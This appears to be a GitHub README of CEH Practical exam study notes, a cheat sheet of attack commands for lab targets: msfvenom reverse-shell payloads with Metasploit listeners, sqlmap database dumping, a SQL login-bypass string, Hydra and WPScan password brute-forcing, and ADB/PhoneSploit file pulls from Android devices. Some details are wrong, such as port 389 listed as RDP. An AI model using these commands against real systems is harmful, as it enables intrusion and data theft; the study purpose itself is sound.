

# CEH-Practical-Notes-and-Tools
Successfully completed the CEH (Practical) exam by EC-Council with a score of 20/20! Took me around 2 hours 20 minutes to complete the 6 hour proctored exam.  

Just a typical CTF Player/Hacker going back to basics 💻

# Network Hacking
<details>
  <summary>Netdiscover </summary>
  
## Netdiscover
  
* Scan Entire Network for ALive host using ARP
```console
netdiscover -i eth0
netdiscover -r x.x.x.1/24
```

</details>

<details>
  <summary>Nmap </summary>
  
## Nmap

* To scan the live Host
```console
nmap -sP x.x.x.1/24                 
nmap -sn x.x.x.1/24
```
* To find the Specific open port 
```console
nmap -p port x.x.x.1/24 --open
```
* Comprehensive Scan
```console
nmap -Pn -A x.x.x.1/24 -vv --open   
```
</details>
<details>
  <summary>Wireshark</summary>
  
  ## Wireshark
  
  * Wireshark provides the feature of reassembling a stream of plain text protocol packets into a human-readable format
  
  ```shell
    select_packet > follow > TCP Stream
  ```
  
  * To the get the specific method like ( post , get )
  
  ```console
  http.request.method==post
  http.request.method==get
  ```
  * To the Find DOS & DDOS
  * go to Statistics and Select Conversations , sort by packets in IPv4 based on number of Packets transfer
  
  ```shell
  Statistics > Conversations > IPv4 > Packets
  
  ```
</details>

<details>
  <summary>Covert TCP</summary>
  
  ## Covert TCP
  
  * [covert_TCP](Covert_TCP.c) 
  * In this we have to use Covert TCP technique to analyses the pcapng file.
  * Traverse though each line in Wireshark and concentrate on Identification field, keep an eye on Hex value and ANSI value.
  * Compile the Code
  ```console
cc -o covert_tcp covert_tcp.c
  ```
  * Reciever Machine(Client_IP)
  ```console
  sudo ./covert_tcp -dest Client_IP -source Attacker_IP -source_port 9999 -dest_port 8888 -server -file recieve.txt
  ```
  * Sender Machine(Attacker_IP)
  * Create A Message file that need to be transferred Eg: secret.txt
  ```console
  sudo ./covert_tcp -dest Client_IP -source Attacker_IP -source_port 8888 -dest_port 9999 -file secret.txt
  ```
 
 * Secret message sent using Covert_TCP and it is captured using Wireshark - [Pcap_of_Covert](Covert_TCP_Capture.pcapng)
 * The Secret text is -> Hello  This 123 -

  

</details>
<details>
  <summary>Common Ports</summary>
  
   

* 22        - SSH
* 21        - FTP
* 389,3389  - RDP
* 3306      - MYSQL
</details>
</details>

# Web Hacking
<details>
  <summary>Nslookup</summary>

* To verify Website's Ip
```console
Nslookup wwww.example.com
```
  </details>
  <details>
  <summary>File Upload</summary>
  
  ## File Upload Vulnerability
  
* To create a PHP Payload 
* Copy the PHP code and create a .php
  
```console
msfvenom -p php/meterpreter/reverse_tcp lhost=attacker-ip lport=attcker-port -f raw
```
  
* To create a Reverse_tcp Connection
```console
msfconsole
use exploit/multi/handler
set payload php/meterepreter/reverse_tcp
set LHOST = attacker-ip
set LPORT = attcker-port
run
```
  
* To find the secret file 
```console
  type C:\wamp64\www\DVWA\hackable\uploads\Hash.txt
```
  </details>
<details>
  <summary>SQL Injection</summary>
  
  ## SQL Injection
  
  * Login bypass with [' or 1=1 --]
 
### SQLMAP
  
* List databases, add cookie values
```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” --dbs 
```
* OR
```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low”   --data="id=1&Submit=Submit" --dbs  
```

* List Tables, add databse name
```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name --tables  
```
* List Columns of that table
```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name -T target_Table --columns
```
* Dump all values of the table
```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name -T target_Table --dump
```
  </details>


</details>

# System Hacking

<details>
  <summary>System</summary>

  * To create a Payload 
```console
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=attacker_IP LPORT=attacker_Port -o filename.exe 
```
* To take a reverse TCP connection from windows
```console
msfdb init && msfconsole 
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST= attacker-IP  
set LPORT= attacker-Port 
run
```

</details>

# Android Hacking
<details>
  <summary>ADB</summary>

  ## ADB
  
* To Install ADB
```console
apt-get update
sudo apt-get install adb -y
adb devices -l
```
* Connection Establish Steps

```console
adb connect x.x.x.x:5555
adb devices -l
adb shell  
```
* To navigate
```console
pwd
ls
cd Download
ls
cd sdcard
```
* Download a File from Android using ADB tool
```console
adb pull /sdcard/log.txt C:\Users\admin\Desktop\log.txt 
adb pull sdcard/log.txt /home/mmurphy/Desktop
```
</details>
<details>
  <summary>PhoneSploit</summary>
  
## PhoneSploit tool
  
* To install Phonesploit 

```console
git clone https://github.com/aerosol-can/PhoneSploit
cd PhoneSploit
pip3 install colorama
OR
python3 -m pip install colorama
```
* To run Phonesploit
```console
python3 phonesploit.py
```
* Type 3 and Press Enter to Connect a new Phone OR Enter IP of Android Device
* Type 4, to Access Shell on phone
* Download File using PhoneSploit
```console
9. Pull Folders from Phone to PC
```
* Enter the Full Path of file to Download
```console
sdcard/Download/secret.txt
```  
</details>

# Password Cracking


<details>
  <summary>Wpscan</summary>
  
## Wordpress

* Wordpress site only Users Enumeration
```console
wpscan --url http://example.com/ceh --enumerate u
```
  * Direct crack if we have user/password detail
```console
wpscan --url http://x.x.x.x/wordpress/ -U users.txt -P /usr/share/wordlists/rockyou.txt
wpscan --url http://x.x.x.x:8080/CEH -u <user> -P ~/wordlists/password.txt
```
</details>

<details>
  <summary>Hydra</summary>

## Hydra

### SSH
```console
hydra -l username -P passlist.txt x.x.x.x ssh
```
### FTP
```console
hydra -L userlist.txt -P passlist.txt ftp://x.x.x.x
```
* If the service isn't running on the default port, use -s
```console
hydra -L userlist.txt -P passlist.txt ftp://x.x.x.x -s 221
```
* FTP Get command
* Used to download the specific file from FTP to attacker or local machine
```console
get flag.txt ~/Desktop/filepath/flag.txt
get flag.txt .
```
### TELNET
```console
hydra -l admin -P passlist.txt -o test.txt x.x.x.x telnet
```  
</details>
  
# Steganography
  <details>
    <summary>Snow</summary>

### Snow
    
* Whitespace Steganography using [Snow](https://darkside.com.au/snow/snwdos32.zip)
* To hide the Text  
  
```console
SNOW.EXE -C -p test -m "Secret Message" original.txt hide.txt
```

* To unhide the Hidden Text

```console
SNOW.EXE -C -p test hide.txt
```


</details>
<details>
  <summary>CrypTool</summary>
  
  ### CrypTool
  
  * [CrypTool](https://www.cryptool.org/en/ct1/downloads) for hex 
  
  
  
  * To Encrypt
  
  
  
  
  * Use Key 05 
  
  
  
  
  
  
  
  * To Decrypt
  
  
  
  
  
  
 </details>
 
# File Transfer
<details>
  <summary>File Transfer</summary>
  
## File Transfer

### Linux to Windows
* used to send a payload by Apache 
```console
mkdir /var/www/html/share
chmod -R 755 /var/www/html/share
chown -R www-data:www-data /var/www/html/share
cp /root/Desktop/filename /var/www/html/share/
  ```
  * to start and verify
  ```console
  service apache2 start 
  service apache2 status
  ```
  * to Download from Windows
  * Open browser 
  ```shell
  IP_OF_LINUX/share
  ```
### Windows to Linux 
* File system > Network > smb///IP_OF_WINDOWS
</details>


# Resource
<details>
  <summary>Course</summary>

* [Penetration Testing Student - PTS ](https://my.ine.com/CyberSecurity/learning-paths/a223968e-3a74-45ed-884d-2d16760b8bbd/penetration-testing-student) from [INE](https://my.ine.com/)
* [Practical Ethical Hacking - PEH ](https://academy.tcm-sec.com/p/practical-ethical-hacking-the-complete-course) from [TCM Security](https://tcm-sec.com/)
* [iLab](https://ilabs.eccouncil.org/ethical-hacking-exercises/) CEH (Practical) Official Lab from [EC-Council](https://www.eccouncil.org/)
* [Youtube free iLab ](https://www.youtube.com/watch?v=9g5gdhoDotg&list=PLWGnVet-gN_kGHSHbWbeI0gtfYx3PnDZO)

</details>
<details>
  <summary>TryHackMe</summary>

## TryHackMe
### Learning Path
* [Pre-Security](https://tryhackme.com/paths) 
* [Jr Penetration Tester](https://tryhackme.com/paths)
* [Complete Beginner](https://tryhackme.com/paths) 
### Rooms
* [Linux](https://tryhackme.com/module/linux-fundamentals)
* [Nmap](https://tryhackme.com/room/furthernmap)
* [SQLMAP](https://tryhackme.com/room/sqlmap)
* [Wireshark](https://tryhackme.com/room/wireshark)
* [Hydra](https://tryhackme.com/room/hydra)
* [DVWA](https://tryhackme.com/room/dvwa)
* [OWASP Top 10](https://tryhackme.com/room/owasptop10)

  
</details>  

<details>
  <summary>Useful Links</summary>
  
## Links
* [hash.com](https://hashes.com/en/decrypt/hash) is a online hash Identifier and Cracker 
</details>

Final Words: Grab a cup of Tea and GRIND!!!

  
